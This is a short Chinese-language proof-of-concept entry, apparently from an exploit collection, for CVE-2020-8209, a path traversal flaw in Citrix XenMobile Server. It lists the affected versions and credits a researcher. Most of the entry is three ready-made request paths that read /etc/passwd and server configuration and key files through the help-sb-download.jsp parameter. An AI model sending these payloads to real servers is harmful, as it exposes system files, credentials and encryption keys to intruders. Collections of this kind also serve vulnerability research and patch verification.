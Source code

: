 # CVE-2020-8209 XenMobile 任意文件读取

影响版本：
- XenMobile Server < 10.12 RP2
- XenMobile Server < 10.11 RP4
- XenMobile Server < 10.10 RP6
- XenMobile Server < 10.9 RP5

POC：
```
/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd
/jsp/help-sb-download.jsp?sbFileName=../../../opt/sas/sw/config/sftu.properties
/jsp/help-sb-download.jsp?sbFileName=../../../opt/sas/rt/keys/security.properties
```

[@Andrey Medov](https://swarm.ptsecurity.com/path-traversal-on-citrix-xenmobile-server)
